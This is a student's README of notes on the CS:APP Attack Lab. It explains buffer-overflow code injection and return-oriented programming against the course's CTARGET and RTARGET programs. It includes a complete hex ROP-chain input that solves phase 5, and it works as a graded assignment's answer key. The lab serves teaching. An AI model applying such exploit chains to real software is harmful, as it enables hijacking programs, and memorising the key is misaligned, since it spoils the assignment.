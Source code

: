 # CSAPP: Attack Lab Notes

This assignment involves generating a total of five attacks on two programs having different security vulnerabilities
You will learn different ways that attackers can exploit security vulnerabilities when programs do not safeguard themselves well enough against buffer overflows. Through this, you will get a better understanding
of how to write programs that are more secure, as well as some of the features provided by compilers and
operating systems to make programs less vulnerable. You will gain a deeper understanding of the stack
and parameter-passing mechanisms of x86-64 machine code. You will gain a deeper understanding of how
x86-64 instructions are encoded. You will gain more experience with debugging tools such as GDB and
OBJDUMP. Note: In this lab, you will gain firsthand experience with methods used to exploit security
weaknesses in operating systems and network servers. Our purpose is to help you learn about the runtime
operation of programs and to understand the nature of these security weaknesses so that you can avoid them
when you write system code. We do not condone the use of any other form of attack to gain unauthorized
access to any system resources. You will want to study Sections 3.10.3 and 3.10.4 of the CS:APP3e book
(Computer Systems: A Programmer’s Perspective) as reference material for this lab.

## Example, what the solution look like
The following is my key for phase5
```
48 c7 c7 70 2b 68 55 c3 \ buffer of 56 bytes
00 00 00 00 00 00 00 00 \ .
35 35 37 36 64 65 30 35 \ .
00 00 00 00 00 00 00 00 \ .
00 00 00 00 00 00 00 00 \ .
00 00 00 00 00 00 00 00 \ ,
00 00 00 00 00 00 00 00 \ buffer end
ed 19 40 00 00 00 00 00 \ pop rax O (this is ret address, so no the bottom of stack is on next line)
20 00 00 00 00 00 00 00 \ value for rsi (bottom of stack when pop)
b2 1a 40 00 00 00 00 00 \ movl eax,ecx (address of gadget) "89 c1 c3" is stored at address 0x401ab2 to 0x401ab4
11 1a 40 00 00 00 00 00 \ movl ecx,edx (address of gadget) "89 c1 c3" is machine language corresponding to movl eax,ecx ret
7b 1a 40 36 64 65 30 35 \ movl edx,edi (address of gadget)  
2c 1a 40 00 00 00 00 00 \ mov  rsp,rax (address of gadget) get rsp address
de 19 40 00 00 00 00 00 \ mov  rax,rdi (address of gadget)
fd 19 40 00 00 00 00 00 \ lea  (%rdi,%rsi,1),%rax (address of gadget) get the address of target value by displacemet on rsp
de 19 40 00 00 00 00 00 \ mov rax,rdi
34 19 40 00 00 00 00 00 \ address of touch3() rdi, address of targetvalue, is passed to touch3() and call touch3()
35 35 37 36 64 65 30 35 \ target value
00
```

## Before you start
You are suggested to have some basic understanding of Assembly langauge and memory allocation. Some suggestion:
* Read *Bryant & O’Hallaron, "Computer Systems: a Programmer’s Perspective", 3rd Edition, 3.10.2~3.10.5*
* Comfortable using [gdb](http://csapp.cs.cmu.edu/2e/docs/gdbnotes-x86-64.pdf)
* Comfortable reading [x86-64 assembl](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)

## Basic idea
In C langauge, every function call would place return address on bottom of stack. When the callee return, the 
program counter would direct to the return address. 
The are some functions in C like getchar() make buffer on stack but not check how many data you put into stack.
This entable attackers to overwrite return address, thus hijack the control of program.

## Target program
There are two executable *CTARGET* and *RTARGET*, they both called `getbuf`
```
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```
The function `Gets` will make a buffer that enable attacker to overwrite return address and triger a series of attack.
There are 5 phases:
| Phase   |      Program      |  Method |
|:----------:|:-------------:|:------:|
| 1 |  CTARGET | Code injection |
| 2 |    CTARGET   | Code injection |
| 3 | CTARGET | Code injection |
| 4 |  RTARGET | Return-oriented programming |
| 5 |  RTARGET | Return-oriented programming |

**Code injection:** Code injection is most basic and easy way for buffer overflow attack. Since Gets makes buffer on stack. There is some momory between return address and  return address. Attack can pass Assembly instructions as hex value in buffer and redirect EPI to the instruction address to perform injected instruction.

**Return-oriented programming:** There are several shorting coming for **Code injection**. Compilier can make random padding address in buffer so that its hard to calculate the address of injected instruction. Also, compilier can make stack inexecutable to prevet EPI point to injected code. To circumvent these protection, attackers can look through original assembly code, and find pieces of instructions called *Gadget* that ended with return that collaberately achieve goal and put the address of these instructions is sequence on stack. And overwrite the return address to the address to the first instruction. Then as every *Gadget* reaches its return, it trigers the start of next *Gadget*

## Method used for the lab
`objdump -d <target>` to get the assembly code for binary file
`gdb <target>`
`info address <target function>` to find the address of functions you need.
Write your input as hex in key
`./hex2raw < key | ./ctarget` to encrylt your input and pass to target

## Author
* **Chen Li** 


## Acknowledgments
* This project is based on *Bryant & O’Hallaron, "Computer Systems: a Programmer’s Perspective", 3rd Edition*


